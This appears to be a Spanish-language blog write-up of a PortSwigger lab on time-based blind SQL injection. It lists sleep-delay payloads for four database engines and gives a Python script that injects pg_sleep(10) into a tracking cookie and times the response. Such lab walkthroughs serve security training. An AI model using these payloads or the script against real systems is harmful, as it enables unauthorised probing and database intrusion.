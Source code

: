 ```yaml
---
title: "13 Blind SQL injection with time delays"
collection: publications
category: portswigger
permalink: /publications/13_Blind SQL injection with time delays
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL basada en el tiempo para provocar un retraso de 10 segundos.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with time delays'
---
```


![logo]({{site.url}}/images/SQLi/sqli-13/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-13/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, explota la vulnerabilidad de inyección SQL para provocar un retraso de 10 segundos.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a Blind SQLi basado en tiempo. Necesitamos averiguar que Motor de BD es. Y vemos que es un `PostgreSQL`

![Cheat]({{site.url}}/images/SQLi/sqli-13/cheat.png)

```sql
' || (SELECT pg_sleep(10))--                                -> Payload para BD PostgreSQL   ✅
' || (SELECT sleep(10))--                                   -> Payload para BD MySQL   ❌
' || (SELECT dbms_pipe.receive_message(('a'), 10))--        -> Payload para BD Oracle   ❌
' || WAITFOR DELAY '0:0:10'--                               -> Payload para BD SQL Server   ❌
```

![Tiempo]({{site.url}}/images/SQLi/sqli-13/tiempo.png)

## Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-13/aprobado.png)

# Codigo Python

```python

import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http:127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def blind_sqli_check(url):
    sqli_payload = "' || (SELECT pg_sleep(10))--"
    sqli_payload_encoded = urllib.parse.quote(sqli_payload)
    cookies = {'TrackingId': 'fY3mWGvtddfW37rS' + sqli_payload_encoded, 'session': '3tjAqEsmAUv1oSufDDKMp8Dpr9LKqwcd'}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    if int(r.elapsed.total_seconds()) > 10:
        print("(+) Vulnerable to blind-based SQL injection")
    else:
        print("(-) Not vulnerable to blind based SQL injection")


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        pring("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Checking if tracking cookie is vulnerable to time-based blind SQLi....")
    blind_sqli_check(url)

if __name__ == "__main__":
    main()

```